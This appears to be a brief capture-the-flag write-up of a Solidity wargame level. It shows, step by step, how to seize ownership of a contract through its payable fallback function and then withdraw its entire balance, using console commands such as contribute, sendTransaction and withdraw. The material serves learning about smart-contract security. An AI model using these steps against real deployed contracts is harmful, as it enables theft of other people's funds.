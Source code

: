 # How can I become the owner of this contract?

: contribute function limits the amount of ether I can send to the contract to less than 0.001 ether. Within the same function, unless I send the contract more than the current owner's contributions, I cannot become the new owner. 

: My next option is to use the fallback function. To pass the requirements, I took the steps below.

1. Use contribute function to add my contributions. 

`contract.contribute({value:1})`

2. Check `msg.sender`'s contributions

`(await contract.getContribution()).toNumber()`

3. Use a function, that is not defined yet payable in the contract. This will fire the contract's fallback function.

`contract.sendTransaction({value:1})`

4. Check the new owner. 

`await contract.owner()`

5. As the new owner, `msg.sender` can now withdraw all existing funds.

`contract.withdraw()`

6. Check if the contract's balance is 0.

`await getBalance(contract.address)`
